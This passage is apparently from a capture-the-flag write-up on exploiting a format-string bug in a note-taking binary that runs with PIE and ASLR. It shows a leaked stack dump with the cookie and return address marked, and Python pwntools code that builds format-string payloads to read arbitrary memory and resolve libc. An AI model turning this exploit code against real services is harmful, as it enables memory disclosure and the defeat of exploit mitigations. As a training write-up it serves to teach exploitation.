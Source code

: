```
 '0x8910ce00L', => stack cookie
 '0x1',
 '0x9',
 '0x0',
 '0x56602f78',
 '0x0',
 '0x0',
 '0xffd9bae8L'
 '0x5660019e',  => return address
 '0x8000',
 '0xf7796000L',
 '0xf7794244L',
 '0xf75fc0ecL',
 '0x1',
 '0x56602f78',
 '0x1',
 '0x8910ce00L',
 '0x1',
 '0xffd9bb94L',
 '0xffd9bb9cL',
 '0x0',
 '0xf7796000L',
 '0xffd9bb00L']
```

After connecting to the server a couple of times it is clear that the binary is compiled with PIE and the remote system has ASLR.
With a bit of trial and error I identified the addresses of the stack, libc and main binary.

I wrote a bit of code that can leak libc using DynELF from pwn tools:

```py
def menu():
    print r.recvuntil(':> ')

def write_note(p):
    menu()
    r.send('1\n')
    print r.recvuntil('Type in your note (max len: 64 characters): ')
    if p[-1:] not in '\x00\n\r':
        p += '\n'
    r.send(p)

def read_note():
    menu()
    r.send('2\n')
    ret = r.recvuntil('\n\n====================\n')
    ret = ret.split('====================\n')[1]
    ret = ret[:-2]
    
    return ret

def exec_fmt(p):
    write_note(p)
    return read_note()

def leak(addr):
    # argument 15 is the location of p32(addr)
    payload = "%15$s.AA"+p32(addr)
    resp = exec_fmt(payload)
    idx = resp.index('.AA')
    resp = resp[:idx]
    ret = resp + "\x00"

```